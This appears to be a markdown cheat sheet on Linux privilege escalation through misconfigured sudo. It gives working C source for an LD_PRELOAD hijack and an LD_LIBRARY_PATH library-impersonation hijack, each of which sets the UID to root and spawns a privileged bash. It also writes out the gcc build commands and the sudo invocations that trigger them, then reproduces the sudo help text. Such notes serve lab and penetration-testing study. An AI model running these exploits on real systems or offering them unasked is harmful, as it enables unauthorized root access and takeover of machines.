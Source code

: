 
sudo -l    lists what you can run

sudo su -


if you have perms to run something as another user, not root, use the -u option:
`sudo -u some_user /bin/bash

### env vars

if sudo -l shows environment variables like:
```sh
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
...
```

#### env_keep+=LD_PRELOAD

preload.c
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Create a shared object using the code located at /home/user/tools/sudo/preload.c:
`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so ./preload.c`

Run `more` or another with sudo perms, while setting the LD_PRELOAD env var to the full path of the new shared object:
`sudo LD_PRELOAD=/tmp/preload.so more`

#### env_keep+=LD_LIBRARY_PATH

```sh
user@debian:/tmp$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fffaa16a000)
		...
		libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f1194436000)
		...
```

library_path.c
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code above:
`gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):
`sudo LD_LIBRARY_PATH=/tmp apache2`

### Help

```sh
sudo - execute a command as another user

usage: sudo -h | -K | -k | -V
usage: sudo -v [-ABkNnS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-ABkNnS] [-g group] [-h host] [-p prompt] [-U user]
            [-u user] [command [arg ...]]
usage: sudo [-ABbEHkNnPS] [-r role] [-t type] [-C num] [-D directory]
            [-g group] [-h host] [-p prompt] [-R directory] [-T timeout]
            [-u user] [VAR=value] [-i | -s] [command [arg ...]]
usage: sudo -e [-ABkNnS] [-r role] [-t type] [-C num] [-D directory]
            [-g group] [-h host] [-p prompt] [-R directory] [-T timeout]
            [-u user] file ...

Options:
  -A, --askpass                 use a helper program for password prompting
  -b, --background              run command in the background
  -B, --bell                    ring bell when prompting
  -C, --close-from=num          close all file descriptors >= num
  -D, --chdir=directory         change the working directory before running
                                command
  -E, --preserve-env            preserve user environment when running command
      --preserve-env=list       preserve specific environment variables
  -e, --edit                    edit files instead of running a command
  -g, --group=group             run command as the specified group name or ID
  -H, --set-home                set HOME variable to target user´s home dir
  -h, --help                    display help message and exit
  -h, --host=host               run command on host (if supported by plugin)
  -i, --login                   run login shell as the target user; a command
                                may also be specified
  -K, --remove-timestamp        remove timestamp file completely
  -k, --reset-timestamp         invalidate timestamp file
  -l, --list                    list user´s privileges or check a specific
                                command; use twice for longer format
  -n, --non-interactive         non-interactive mode, no prompts are used
  -P, --preserve-groups         preserve group vector instead of setting to
                                target´s
  -p, --prompt=prompt           use the specified password prompt
  -R, --chroot=directory        change the root directory before running command
  -r, --role=role               create SELinux security context with specified
                                role
  -S, --stdin                   read password from standard input
  -s, --shell                   run shell as the target user; a command may
                                also be specified
  -t, --type=type               create SELinux security context with specified
                                type
  -T, --command-timeout=timeout terminate command after the specified time limit
  -U, --other-user=user         in list mode, display privileges for user
  -u, --user=user               run command (or edit file) as specified user
                                name or ID
  -V, --version                 display version information and exit
  -v, --validate                update user´s timestamp without running a
                                command
  --                            stop processing command line arguments
```

